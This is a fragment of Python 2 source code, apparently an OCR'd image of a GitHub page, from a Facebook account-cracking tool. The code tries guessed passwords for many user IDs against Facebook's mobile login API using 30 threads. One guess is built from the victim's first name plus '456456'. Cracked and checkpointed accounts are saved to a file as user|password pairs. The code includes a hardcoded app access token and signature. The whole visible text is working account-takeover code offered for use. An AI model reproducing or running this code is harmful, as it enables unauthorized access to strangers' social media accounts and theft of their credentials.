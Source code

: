 													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6
															cek = open("out/checkpoint.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
															b = json.loads(a.text)
															pass7 = b['first_name'] + '456456'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7
																	cek = open("out/checkpoint.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print 42*"\033[1;96m="
	print '\033[1;96m[\033[1;97m \033[1;96m] \033[1;92mProcess Has Been Completed \033[1;97m....'
	print"\033[1;96m[+] \033[1;92mTotal OK\x1b[1;93mCP \033[1;91m: \033[1;92m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(cekpoint))
	print("\033[1;96m[+] \033[1;92mCP File Has Been Saved \033[1;91m: \033[1;97mout/checkpoint.txt")
	raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]")
	menu()
if __name__ == '__main__':
	login()
